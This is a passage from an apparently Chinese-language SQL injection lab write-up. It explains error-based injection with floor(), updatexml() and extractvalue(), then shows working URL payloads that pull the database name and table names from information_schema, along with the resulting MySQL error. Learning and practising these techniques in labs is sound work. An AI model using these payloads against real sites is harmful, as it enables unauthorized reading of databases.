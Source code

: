    >
   > ```sql
   > (select 1 from ()a)
   > ```
   >
   > 最后的a就是内存查询的别名，让外层查询引用，这个是必要的
   >
2. `updatexml()` 报错注入

   长度限制是32位

   ```sql
   and updatexml(1,payload,1)
   ```

> `updatexml(xml_target, xpath_expr, new_value)`：该函数是用来更新XML文档的某个节点
> `xml_target`  xml文档
> `xpath_expr`  Xpath表达式，用来定位要更新的节点
> `new_value`    新的节点值
>
> 报错的原因是当该函数执行时，如果出现xml文档路径错误就会报错

3. `extractValue()`  报错注入

   长度限制是32位

   ```sql
   and extractvalue(1, payload)
   ```

   > `extractvalue(xml_target, xpath_expr)`：该函数用来提取XML文档中某个节点的值
   > `xml_target`  xml文档
   > `xpath_expr`   Xpath表达式，用来定位要提取的节点
   >
   > 这个的报错原因和上面一样
   >

然后开始尝试

1. `floor()`
   获取数据库名

   ```
   ?id=1'and (select 1 from 
   (select count(*),concat((database()),floor(rand(0)*2))x 
   from information_schema.tables group by x)a) --+
   ```

   ```
   Duplicate entry 'security1' for key 'group_key'
   ```

   然后获取表名

   ```
   ?id=1'union select count(*),0,concat((select table_name from information_schema.tables where 
   table_schema='security' limit 3,1),floor(rand(0)*2))as a from information_schema.tables group by a --+
   ```
